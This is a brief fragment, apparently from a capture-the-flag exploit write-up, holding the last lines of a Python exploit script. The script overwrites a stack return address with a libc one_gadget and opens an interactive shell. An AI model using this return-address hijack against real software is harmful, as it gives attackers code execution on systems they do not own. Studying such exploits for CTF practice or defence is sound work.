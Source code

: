 ```python
ret_addr = stack_addr - 0x1e0
onegadget = libc.address + 0x4f3d5

one_call_write(onegadget, ret_addr)

io.interactive() #shell
```

